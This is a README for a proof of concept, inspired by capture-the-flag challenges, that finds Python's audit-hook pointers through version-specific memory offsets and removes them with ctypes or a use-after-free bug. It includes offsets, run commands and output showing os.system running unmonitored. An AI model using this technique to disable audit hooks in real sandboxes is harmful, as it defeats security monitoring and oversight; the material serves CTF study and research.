 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
# offset for audit hook set by python and C
if sys.version_info[:2] == (3, 12):
    PTR_OFFSET = [0x41448, -0x11df0]
else:
    PTR_OFFSET = [0xe00, -0xe388]
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
[UAF POC](./UAF-issue91153.md)
### How to use
```bash
# or ./build311.sh
./build.sh
./POC-no-ctypes.py
./POC2-no-ctypes.py
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
